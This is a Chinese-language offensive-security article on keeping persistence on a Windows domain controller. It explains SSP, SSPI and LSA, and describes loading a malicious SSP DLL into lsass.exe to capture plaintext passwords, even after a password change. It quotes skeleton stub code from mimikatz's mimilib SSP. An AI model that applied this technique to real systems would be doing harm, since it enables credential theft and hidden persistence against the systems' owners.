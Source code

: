 前言
--

拿下域控,渗透就结束了吗?实际上,往往刚刚开始。  
本文就域控权限维持的两种方法展开研究:`SSP`和`PasswordChangeNotify`。

SSP
---

### 何为SSP

SPP全称为`Security Support Provider`,安全支持提供者。  
SPP是一个dll,用于身份的验证。  
windows下的SSP包含有:

- NTLMSSP (msv1\_0.dll)
- Kerberos (kerberos.dll)
- NegotiateSSP (secur32.dll)
- Secure Channel (schannel.dll)
- TLS/SSL
- Digest SSP (wdigest.dll)
- CredSSP (credssp.dll)
- DPA(Distributed Password Authentication) (msapsspc.dll)
- Public Key Cryptography User-to-User (PKU2U, pku2u.dll)

### SSPI

SSPI全称为`Security Support Provider Interface`,为SSP接口,实际上就是SSP的API。

### LSA

LSA全称`Local Security Authority`,是微软窗口操作系统的一个内部程序，负责运行Windows系统安全政策。它在用户登录时电脑单机或服务器时，验证用户身份，管理用户密码变更，并产生访问字符。它也会在窗口安全记录档中留下应有的记录。用于身份的验证。其中就包含有`lsass.exe`进程。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-191c406c3f9e9666b6d2dc536aa8e4aaf3f8d9ce.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-191c406c3f9e9666b6d2dc536aa8e4aaf3f8d9ce.png)  
操作lsass进程需要至少system权限。

### 利用SSP进行权限维持

如果获得目标系统system权限，可以使用该方法进行持久化操作。其主要原理是：LSA（Local Security Authority）用于身份验证；lsass.exe作为windows的系统进程，用于本地安全和登录策略；在系统启动时，SSP将被加载到lsass.exe 进程中。但是，假如攻击者对LSA进行了扩展，自定义了恶意的DLL文件，在系统启动时将其加载到lsass.exe进程中，就能够获取lsass.exe进程中的明文密码。这样即使用户更改密码并重新登录，攻击者依然可以获得该账号的新密码。

`mimikatz`早以支持这个功能,该文件为为`mimilib.dll`。mimikatz poc为:

```c++
#include "kssp.h"

static SECPKG_FUNCTION_TABLE kiwissp_SecPkgFunctionTable = {
    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,
    kssp_SpInitialize, kssp_SpShutDown, kssp_SpGetInfo, kssp_SpAcceptCredentials,
    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,
    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,
    NULL, NULL, NULL, NULL, NULL, NULL, NULL,
};

NTSTATUS NTAPI kssp_SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable)
{
    return STATUS_SUCCESS;
}

NTSTATUS NTAPI kssp_SpShutDown(void)
{
    return STATUS_SUCCESS;
}
```